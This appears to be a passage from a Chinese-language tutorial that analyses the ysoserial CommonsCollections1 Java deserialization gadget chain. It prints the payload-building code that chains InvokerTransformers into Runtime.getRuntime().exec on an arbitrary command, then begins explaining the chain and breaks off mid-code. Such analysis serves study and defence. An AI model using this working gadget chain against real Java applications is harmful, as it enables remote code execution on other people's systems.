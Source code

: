 ```java
public InvocationHandler getObject(final String command) throws Exception {
    final String[] execArgs = new String[] { command };
    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
        new Transformer[]{ new ConstantTransformer(1) }
    );
  
    // real chain for after setup
    final Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer(
          "getMethod", 
          new Class[] {String.class, Class[].class }, 
          new Object[] { "getRuntime", new Class[0] }
        ),
      new InvokerTransformer(
        "invoke", 
        new Class[] {Object.class, Object[].class }, 
        new Object[] {null, new Object[0] }
      ),
      new InvokerTransformer(
        "exec",
        new Class[] { String.class }, 
        execArgs
      ),
        new ConstantTransformer(1) 
    };

    final Map innerMap = new HashMap();

    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

    final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);

    final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);

    Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

    return handler;
}

```

### 构造transformers
综合前面的前置知识，可以知道前半部分先构造了一个`transformers`链

```java
/* Transformer[]
    Runtime.getRuntime().exec("xxx");
    
    Runtime.class.getMethod("exec", String.class)
     .invoke(
        Runtime.class.getMethod("getRuntime")
            .invoke(Runtime.class),
        "open -a Calculator"
	);
*/
final Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer(
        "getMethod",
        new Class[] { String.class, Class[].class },
```